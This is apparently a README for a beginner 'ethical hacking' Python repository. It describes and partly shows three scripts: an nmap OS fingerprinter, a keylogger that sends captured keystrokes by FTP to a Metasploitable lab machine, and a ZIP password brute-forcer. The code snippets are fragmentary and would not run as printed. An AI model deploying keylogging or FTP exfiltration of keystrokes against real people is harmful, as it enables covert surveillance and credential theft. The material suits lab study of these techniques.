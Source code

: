 # Ethical Hacking with Python

Ethical Hacking refers to the process of performing attacks on computer systems and networks to discover potential security weaknesses and help clients improve their security. It is common for ethical hackers to automate structured processes by writing their own scripts.

Python is a widely-used general-purpose, open-source, object-oriented HLL with libraries that can be used for hacking, making it ideal for implementing automation. Python's large community makes doubt resolution fast and easy.

This repository contains python3 scripts for automating basic tasks such as [OS fingerprinting](#os-fingerprinting), [keylogging](#keylogging), and [brute-forcing protected passwords](#bruteforce-protected-passwords). All instructions regarding customization have been provided in the scripts themselves.

## OS Fingerprinting

OS fingerprinting is the process of determining the operating system running on a system. By determining the OS of a system, tailor-made attacks can be launched against the target using known vulnerabilities.

In this script, the python3-nmap library has been used to bring the functionalities of Nmap to Python. Nmap is an open-source security auditing and network mapping tool that can "detect or diagnose services that are running on an Internet-connected system by a network administrator in their networked system". For more information, visit

https://nmap.org/book/osdetect-fingerprint-format.html

### Installation

```bash
pip install python3-nmap
```

### Usage

```python
import nmap    # import the nmap module
import sys     # import the sys module
import time    # import the time module

nm_scan = nmap.PortScanner() # initialise the Nmap PortScanner object for scanning
nm_scanner= nm_scan.scan(sys.argv[1],'80',arguments='-O')    # scan port 80 of target IP obtained using sys.argv[1]
with open("%s.txt"%sys.argv[1], 'w') as f:
    f.write(host_status+port_status+scan_method+os_guess)
    f.write("\nReport generated at: "+time.strftime("%Y-%m-%d_%H:%M:%S GMT", time.gmtime())) # generate timestamp
```

To run the script, open a terminal in the current directory and enter 

```bash
python os_fingerprint.py <target IP>
```

Here, <target IP> will be replaced by your target's IP address, and utilized as sys.argv[1] in the script. Before running the script, update the Environment Variables on your system

## Keylogging

Keystroke loggers, or keyloggers, are pieces of software that can log (and thus, track) the keys being pressed on a keyboard, in order to monitor the actions of the target.

In this script, pynput.keyboard, ftplib and logging modules of Python have been used to create a keylogger, store its results, and integrate FTP into it. No additional installations are required, as these modules are built-in.

The pynput package can control and monitor input devices, as explained on

https://pynput.readthedocs.io/en/latest/keyboard.html

File Transfer Protocol (FTP) is an internet protocol provided by TCP/IP used for transmitting files from one host to another. The ftplib module is used to implement the client side of the FTP protocol. For more information, visit

https://docs.python.org/3/library/ftplib.html

The logging module allows writing status messages to output streams such as files. Read about it on

https://docs.python.org/3/library/logging.html

### Usage

```python
from pynput.keyboard import Key, Listener   # import Key and Listener modules from pynput.keyboard package
import ftplib                               # import the ftplib module
import logging                              # import the logging module

def onKeyPress(Key):
    try:
        logging.info(str(Key)) # creates a definition for keypresses and takes the key as a parameter

sess= ftplib.FTP("", "", "")    # creates a new instance of the FTP class and makes a connection when host is provided
                                # insert target IP, username, password
```

In this script, a metasploitable machine is used as the FTP server where the file with the pressed keys exist. The IP address of the machine needs to be the same as the address in the script. To setup a metasploitable machine, follow this tutorial:

https://www.thesecuritygeeks.com/security/install-metasploitable-2-in-virtual-box/

The default username and password are "msfadmin". The machine's IP address can be found out by running the "ifconfig" command on it. Make sure your virtual machine is online before running this script on your local machine.

After the script has finished running, run the "ls -a" command on the virtual machine to check if the keylogger results have been shared with it or not. The original .txt file will be in the same directory as the script, on your local machine, and its copy should be present in the metasploitable machine.

## Bruteforce Protected Passwords

Bruteforcing is the process of attacking static parameters with several parameters to compare and match. Here, the parameter will be a protected password. This script uses the zipfile and argparse python modules for this process.

The zipfile module facilitates the creating, extracting, reading and writing to ZIP archives. The ZipFile() function returns a string or file object. For details, visit

https://docs.python.org/3/library/zipfile.html

The argparse module improves interaction by generating help, usage and error messages according to command-line arguments entered by the user. To see how this works, check

https://docs.python.org/3/library/argparse.html

### Usage

```python
from zipfile import ZipFile  # import the ZipFile module
import argparse              # import the argparse module

parser= argparse.ArgumentParser(description="\nUsage: python <brutefile.py> -z <zipfile.zip> -p <passwordfile.txt>")
parser.add_argument("-z", dest="ziparchive", help="Zip archive file")
parser.add_argument("-p", dest="passfile", help="Password file")
parsed_args= parser.parse_args()
ziparchive= ZipFile(parsed_args.ziparchive)

# Replace <brutefile.py> with the program name, <zipfile.py> with the target and <passwordfile.txt> with the list of passwords 
# -z and -p are arguments for ZipFile()
```

## Contributing

Pull requests are welcome and encouraged. As this repository is for scripting and ethical hacking beginners, please explore further and improve the functionalities of these scripts as desired. Try writing new scripts for automating other penetration testing tasks as well.